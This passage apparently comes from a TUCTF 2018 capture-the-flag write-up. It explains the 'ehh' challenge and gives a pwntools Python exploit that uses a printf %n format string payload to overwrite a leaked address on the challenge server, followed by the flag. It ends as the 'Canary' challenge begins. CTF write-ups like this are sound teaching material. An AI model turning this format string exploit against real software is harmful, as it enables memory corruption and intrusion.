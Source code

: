 ## Problem

Difficulty: easy
Whatever... I dunno

nc 18.222.213.102 12345

[ehh](/blog/2018/tuctf-writeup/Ehh/ehh)

## Solution

This is a simple format string attack using `printf` and `%n`.

We have to overwrite a given address with `0x18`. Here is the exploit:

```python
from pwn import *

# sh = process('./ehh')
sh = remote('18.222.213.102', 12345)

addr = int(sh.recvuntil('\n').split(' ')[-1][2:], 16)

payload = ''
payload += p32(addr)
payload += '%{}x'.format(0x18-4)
payload += '%6$n'

# for i in range(4,100):
#     payload += '%{}$x '.format(i)

sh.sendline(payload)

sh.interactive()
```

flag: `TUCTF{pr1n7f_15_pr377y_c00l_huh}`

# Canary

## Problem

Difficulty: easy
I can fix overflows easy! I'll just make my own stack canary no problem. 
Just try and pwn this, I dare you

nc 18.222.227.1 12345

[canary](/blog/2018/tuctf-writeup/Canary/canary)

## Solution
